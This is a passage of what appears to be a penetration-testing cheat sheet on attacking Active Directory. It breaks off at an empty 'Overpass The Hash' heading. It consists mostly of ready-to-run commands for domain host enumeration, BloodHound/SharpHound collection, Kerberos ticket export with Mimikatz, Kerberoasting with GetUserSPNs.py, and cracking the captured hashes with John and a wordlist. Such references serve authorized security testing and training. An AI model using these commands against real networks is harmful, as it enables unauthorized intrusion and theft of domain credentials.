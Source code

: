 #### Enumeration of other hosts:

```powershell
Get-DomainComputer | % {Resolve-DnsName $_.cn | Select Name, IPAddress}
```

#### Bloodhound:

```powershell
bloodhound-python -u <username> -p <password> -dc <IP_DC> -c all # for bash

. .\SharpHound.ps1
Invoke-BloodHound --CollectionMethod all

.\SharpHound.exe -c all
```

Find out possible vectors from this and see what we can do with it.

#### Kerberos Tickets Cached:

{% code overflow="wrap" %}
```powershell
klist

Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName"
```
{% endcode %}

#### Check User SPNs for Kerberoast (require credentials):

{% code overflow="wrap" %}
```bash
GetUserSPNs.py -request -dc-ip 192.168.2.160 <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted

GetUserSPNs.py -request -dc-ip 192.168.2.160 -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast

Get-NetUser -SPN | select serviceprincipalname #PowerView

Invoke-Mimikatz -Command '"kerberos::list /export"' #PowerView

impacket-GetUserSPNs -request -dc-ip <IP> -outputfile hashes 
```
{% endcode %}

#### Cracking tickets:

```bash
john --format=krb5tgs --wordlist=rockyou.txt hashes.kerberoast
```

#### Overpass The Hash:
